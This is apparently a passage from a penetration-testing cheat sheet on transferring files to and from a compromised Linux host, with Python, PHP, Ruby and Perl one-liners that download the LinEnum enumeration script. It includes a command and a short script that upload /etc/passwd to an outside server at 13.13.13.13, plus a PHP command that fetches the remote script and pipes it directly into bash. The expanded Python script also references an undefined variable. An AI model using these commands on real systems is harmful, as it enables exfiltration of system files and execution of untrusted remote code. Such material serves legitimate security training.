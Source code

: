 ```bash
```
2. **Python3 - Download**
```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### Upload Operations
1. **Starting the Python uploadserver Module**
```bash
python3 -m uploadserver
```
1. **Uploading a File Using a Python One-liner**
```bash
python3 -c 'import requests;requests.post("http://13.13.13.13:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
1. **Oneliner in few lines for better understanding**
```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://13.13.13.13:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```


### PHP
1. **PHP Download with File_get_contents()**
```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
2. **PHP Download with Fopen()**
```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
3. **PHP Download a File and Pipe it to Bash**
```bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
### Ruby
- **Ruby - Download a File**
```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
### Perl
- **Perl - Download a File**
```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
